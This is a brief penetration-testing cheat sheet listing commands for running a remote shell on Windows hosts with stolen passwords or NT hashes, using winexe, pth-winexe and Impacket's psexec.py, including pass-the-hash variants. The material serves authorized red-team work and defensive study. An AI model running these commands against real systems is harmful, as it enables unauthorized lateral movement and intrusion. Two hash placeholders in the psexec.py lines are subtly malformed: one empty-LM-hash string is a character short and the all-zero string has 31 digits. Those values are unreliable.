 # Unix Shell

## Samba Suite Utils

`$ winexe -U <domain>/<username>%<password> //<IP> <cmd.exe | powershell.exe>`

- Pass the Hash

`$ pth-winexe -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP> <cmd.exe | powershell.exe>`

## Impacket

`$ psexec.py <username>:<password>@<IP> [-codecs <codec>]`

- Pass the Hash

```
$ psexec.py <username>@<IP> -hashes <LM>:<NT> [-codecs <codec>]

$ psexec.py <domain_name>/<username>@<IP> -hashes 0000000000000000000000000000000:<NT>

$ psexec.py <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT>

$ psexec.py <domain_name>/<username>@<IP> -hashes :<NT>
```
